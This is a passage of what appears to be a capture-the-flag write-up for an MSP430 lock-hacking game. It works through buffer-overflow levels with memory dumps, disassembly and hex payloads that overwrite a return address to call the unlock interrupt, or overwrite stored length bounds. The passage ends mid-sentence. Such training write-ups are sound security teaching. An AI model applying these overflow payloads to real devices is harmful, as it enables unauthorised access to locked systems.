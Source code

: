 3600:   0000 0000 0000 0000 4645 0100 4645 0300   ........FE..FE..
3610:   ba45 0000 0a00 0000 2a45 ff01 0203 0405   .E......*E......
3620:   0607 0809 0a0b 0c0d 0e0f 1011 1213 1415   ................
3630:   1617 1819 1a1b 1c1d 1e1f 0000 0000 0000   ................
```

In particular, bytes 16-17 of the password will be used as the return
address.  But this time, there is no code in the program to unlock the
door that we can just return to.  However, we do have the INT function
at `0x4532`, which expects the interrupt number to be pushed on the
stack.  So if we make the password 16 bytes followed by the address of
the INT function, say:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa3245bbbbcccc
```

then the INT function will expect the `bbbb` to be the return address,
and the `cccc` to be the argument.  We may as well have the program
stop after we open the door as normal, so we make the return address
the address of the "stop the program" code at `0x443c`, and we make
the argument `0x007f`.  Thus our password will be:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa32453c447f00
```

## 9.  Santa Cruz

This is an odd one.  It requires a username and password, both between 8 and 16 bytes.

The method of enforcing this is the following:

After the username and password have been entered, the stack (with
sp=0x43a0) looks like:

```
43a0:   0000 4142 4344 4546 4748 494a 0000 0000   ..ABCDEFGHIJ....
43b0:   0000 0008 1061 6263 6465 6667 6869 6a6b   .....abcdefghijk
43c0:   6c6d 0000 0000 0000 0000 0000 4044 0000   lm..........@D..
```

Notice the 08 and 10 at 43b3.  We note that these are the stated upper
and lower bounds for the lengths of the username and password, and
indeed, if we watch the execution, we see that these are indeed used
for checking lengths.

Since the code that actually reads the username is:

```
4582:  3e40 6300      mov	#0x63, r14
4586:  3f40 0424      mov	#0x2404, r15
458a:  b012 1847      call	#0x4718 <getsn>
```

We actually get 0x63 bytes of username, with which we can clearly
overwrite these values.  Of course, strcpy means we cannot have any
null bytes.  But we can use the username to overwrite these values
with the bytes 01 and 7f--the minimum and maximum positive integers
expressed by a signed byte.

Thus our username will be (in hex):

```aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa017f```

However, the password must also end in a null byte.  The following
```